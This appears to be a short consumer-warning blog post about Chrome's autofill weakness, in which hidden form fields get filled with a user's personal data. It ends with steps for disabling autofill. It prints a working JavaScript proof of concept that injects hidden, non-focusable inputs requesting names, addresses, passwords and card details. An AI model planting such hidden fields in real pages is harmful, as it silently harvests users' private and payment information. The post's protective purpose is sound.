

Chrome has yet to fix a well-known vulnerability [first publicized way back in 2013](https://yoast.com/autocomplete-security/).

Basically, a hacker can hide form input fields on a web page, which Chrome will then fill in with your personal information if you opt to use its autocomplete feature.

Here’s what this looks like:

](./asset-2.gif)

GitHub user [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) demonstrated this with the following JavaScript script:

```
var autocompletes = ['name', 'honorific-prefix', 'given-name',
  'additional-name', 'family-name', 'honorific-suffix',
  'nickname', 'username', 'new-password',
  'current-password', 'organization-title', 'organization',
  'street-address', 'address-line1', 'address-line2',
  'address-line3', 'address-level4', 'address-level3',
  'address-level2', 'address-level1', 'country',
  'country-name', 'postal-code', 'cc-name', 'cc-given-name',
  'cc-additional-name', 'cc-family-name', 'cc-exp',
  'cc-exp-month', 'cc-exp-year', 'cc-csc', 'cc-type',
  'transaction-currency', 'transaction-amount',
  'language', 'bday', 'bday-day', 'bday-month',
  'bday-year', 'sex', 'url', 'photo', 'tel',
  'tel-country-code', 'tel-national',
  'tel-area-code', 'tel-local', 'tel-local-prefix',
  'tel-local-suffix', 'tel-extension', 'impp'
];

emailField.addEventListener('focus', function() {
  var wrap = autocompletes.reduce(function(wrapper, field) {
    var input = document.createElement('input');
    
    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;
    
    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement('div'));

  // Hide the wrapper
  wrap.classList.add('hidden');
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener('focus', arguments.callee);
});
```

I recommend you turn off Chrome’s autocomplete feature immediately.

### The fastest way to turn off autocomplete in Chrome

1.  Paste this into Chrome’s address bar: `chrome://settings/autofill`
2.  Press escape to exit the “manage autofill settings” modal
3.  Uncheck the autofill checkbox



Now you’re good to go. You may have to type a bit more, but you can have the peace of mind that hackers won’t be able to steal your personal data using this well-known exploit.
